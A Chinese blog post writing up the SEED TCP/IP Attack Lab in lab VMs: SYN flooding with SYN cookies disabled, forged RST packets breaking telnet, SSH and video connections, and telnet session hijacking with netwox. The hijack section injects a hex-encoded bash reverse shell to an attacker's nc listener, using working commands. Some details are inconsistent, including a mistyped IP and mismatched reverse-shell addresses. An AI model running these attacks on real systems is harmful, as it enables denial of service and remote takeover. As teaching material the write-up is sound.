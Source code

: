 ```yaml
---
title: 'Seed Labs: TCP/IP Attack Lab'
tags:
  - Seed Labs
  - TCP/IP
categories:  
  - Network
  - Network security
abbrlink: 47949
date: 2018-01-12 18:34:41
---
```


　　网络与计算机安全课程实验（二），TCP/IP攻击。

<!--more-->

#### 实验原理与目的

　　TCP/IP协议从开始设计时候并没有考虑到现在网络上如此多的威胁，由此导致了许多形形色色的攻击方法。本次实验涉及了TCP/IP攻击的三种基本类型，（1）SYN洪泛攻击，（2）TCP RST攻击，（3）TCP会话劫持攻击。希望通过本次实验了解TCP/IP攻击的原理，通过实际操作掌握基本的攻击方法，学会如何防范此类攻击。

#### 实验配置

　　基本配置与上一个实验：Local DNS Attack Lab基本一致。按照实验指导手册，配置3台虚拟机，1台作为DNS服务器，1台作为用户机，另1台作为攻击者，3台机器通过设置NAT网络来实现网络互访。

　　实验资料下载地址：
　　[http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/](http://www.cis.syr.edu/~wedu/seed/Labs_12.04/Networking/TCPIP/)

![12-1](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-1.png)

##### 启用telnet服务器

　　对于本实验，实验要求启用ftp和telnet服务器，但是其实在后续的实验中只用到了telnet。为了安全起见，Ubuntu系统中安装的这些服务通常是默认禁用的，所以需要以root用户身份运行以下命令来启用：

```
$ sudo service vsftpd start
$ sudo service openbsd-inetd start
```

#### 实验过程
##### SYN 洪泛攻击

　　SYN 洪泛是DoS攻击的一种形式，攻击者向受害者的TCP端口发送多个SYN请求，但是攻击者无意完成三次握手过程。攻击者要么使用欺骗性的IP地址，要么不要继续这个过程。通过这种攻击，攻击者可以淹没用于半开连接的受害者队列，即完成SYN，SYN-ACK但尚未得到最终ACK的连接。当这个队列已满时，受害者不能再进行连接。

　　队列的大小有一个系统范围的设置。在Linux中，我们可以使用以下命令检查设置：
```
$ sysctl -q net.ipv4.tcp_max_syn_backlog
```

　　我们可以使用命令“netstat -na”来检查队列的使用情况，即与监听端口关联的半开连接的数量。这种连接的状态是SYN-RECV。如果三次握手完成，连接的状态将建立。

![12-2](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-2.png)

　　Netwox编号为76的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 76 --help”可以获取如下帮助信息。

![12-3](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-3.png)

　　首先在用户机上使用telnet 192.168.0.10命令测试telnet连接是否可用，验证可以成功登陆后即退出，然后攻击者开始使用如下命令发起攻击：

```
$ sudo netwox 76 --dst-ip 192.168.0.10 --dst-port 23
```

　　然后，用户机再次通过telnet连接到服务器，此时发现依然可以连接，按照实验指导手册所说，我们需要检查机器是否已经开启SYN cookie机制，SYN cookie是抵御SYN洪泛攻击的防御机制。我们可以使用sysctl命令查看、打开和关闭SYN cookie机制，使用如下命令查看SYN cookie机制的设置情况：

```
$ sysctl -a | grep cookie
```

　　可以看到默认情况下， SYN cookie机制是启用的，所以先将其关闭后再尝试攻击，使用如下命令将其关闭：

```
$ sysctl -w net.ipv4.tcp_syncookies=0
```

![12-4](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-4.png)

　　此时，再次发起攻击，并尝试再次使用telnet连接到服务器，发现已经无法连接到服务器了，如下：

![12-5](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-5.png)

　　当然，你也可以通过wireshark抓包来查看攻击者发送的数据包。实验完成后，再使用如下命令将SYN cookie机制打开，以防止SYN洪泛攻击。

```
$ sysctl -w net.ipv4.tcp_syncookies=1
```

##### TCP RST攻击telnet和ssh连接

　　RST表示复位，用来异常的关闭连接，在TCP的设计中它是不可或缺的。发送RST包关闭连接时，不必等缓冲区的包都发出去，直接就丢弃缓存区的包发送RST包。而接收端收到RST包后，也不必发送ACK包来确认。TCP RST攻击可以终止两个受害者之间建立的TCP连接。例如，如果两个用户A和B之间建立了Telnet连接（TCP），则攻击者可以将A到B的RST数据包进行欺骗，从而破坏现有的连接。为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。Netwox编号为78的工具提供了RST攻击的基本功能，输入“netwox 78 --help”可以获取如下帮助信息。

![12-6](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-6.png)

　　在用户机上使用telnet命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，命令如下：

```
netwox 78 –i 1921.68.0.10
```

　　命令运行后悔使得用户机与服务器的telnet连接中断，攻击效果如下图：

![12-7](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-7.png)

　　在用户机上使用ssh命令连接到服务器，登录成功以后，攻击者发起RST攻击，通过netwox 78号工具伪造RST包发送给服务器，使得用户机与服务器的SSH连接中断，实验效果如下图：

![12-8](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-8.png)

##### TCP RST攻击视频流应用程序

　　实验原理与任务2相同。TCP RST攻击终会止两个受害者之间建立的TCP连接。在用户机上使用浏览器访问优酷的视频，攻击者向用户发起RST攻击，再刷新浏览器页面时即显示，为了在这次攻击中取得成功，攻击者需要正确构造TCP RST数据包。
　　Netwox编号为78的工具提供了RST攻击的基本功能攻击命令，通过netwox 78号工具伪造RST包发送给服务器，命令如下：

```
netwox 78 –i 1921.68.0.100
```

　　攻击效果如下图，正常观看视频，发起攻击再刷新页面后TCP连接断开，页面崩溃。

![12-9](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-9.png)

![12-10](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-10.png)

##### TCP会话劫持

　　开启wireshark，并设置过滤器--filter telnet，然后开始监控局域网内的流量。用户开始使用telnet连接到服务器，分析telnet连接建立时发送的数据包，然后根据其特征伪造相应的数据包来劫持会话。

![12-11](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-11.png)

　　Netwox编号为40的工具提供了SYN 洪泛攻击的基本功能，输入“netwox 40 --help”可以获取如下帮助信息。

![12-12](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-12.png)

　　使用netwox的40号工具，根据抓包数据的TCP源端口目的端口填写tcp-src和tcp-dst，根据IP包的源地址目的地址填写ip4-src和ip4-dst，根据用户机发送给服务器的最后一个数据包的Next sequence nuber字段填写tcp-seqnum，根据服务器发送给用户机的最后一个数据包的Acknowledgement number字段填写tcp-acknum，根据IP包的TTL字段填写ip4-ttl，根据IP包的协议字段填写ip4-protocol ，然后根据需要填写tcp-data字段。加入我们发送ls命令到服务器来查看该目录下有什么文件，将ls转换成16进制并加上\r的16进制数，生成我们的命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 59714 --tcp-dst 23 --tcp-seqnum 3089814629 --tcp-acknum 1471714290 --tcp-ack --tcp-psh --tcp-window 128 --tcp-data "6c730d00"
```

　　通过wireshark抓包可以看到命令已经发出，效果如下：

![12-13](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-13.png)

　　紧接着，服务器会将该命令的执行结果发送出来，我们同样可以通过抓包查看，如下所示，可以看到ls命令的执行结果，即显示该目录下所有文件：

![12-14](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-14.png)

##### 使用TCP会话劫持创建反向Shell

　　设置后门的一个典型方法是从受害者机器运行一个反向外壳，以使外壳访问受害者机器。反向shell是在远程机器上运行的一个shell进程，连接到攻击者的机器。攻击者一旦遇到危险，就可以方便地访问远程机器。
　　netcat程序允许我们指定一个端口号，并可以监听该端口上的连接。我们可以在攻击者机器上，使用如下命令netcat监听端口9090上的连接：

```
nc –l 9090 -v
```

　　“/bin/bash -i> /dev/tcp/10.0.2.4/9090 0 <＆1 2>＆1”会启动一个bash shell，其输入来自tcp连接，其标准错误输出将被重定向到相同的tcp连接。将该命令转换成16进制，并在最后添加回车的16进制代码，即0x0d00。

　　然后通过上面3.4的会话劫持将这个命令发送到服务器，命令如下：

```
sudo netwox 40 --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-protocol 6 --ip4-src 192.168.0.100 --ip4-dst 192.168.0.10 --tcp-src 53700 --tcp-dst 23 --tcp-seqnum 3862965514 --tcp-acknum 3719047389 --tcp-window 128 --tcp-urgptr 0 --tcp-data "2F62696E2F62617368202D69203E202F6465762F7463702F3139322E3136382E302E3230302F3930393020303C263120323E26310d00"
```

　　通过wireshark抓包可以看到数据包已经构造成功，并且发送到服务器。

![12-15](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-15.png)

　　由于攻击者一直在监听9090端口，服务器一旦接收到这个命令就会向攻击者建立连接，从而拿到服务器的shell，如下图所示netstat的输出显示已建立的连接。

![12-16](http://ohe7ixo05.bkt.clouddn.com/2018/1/12-16.png)
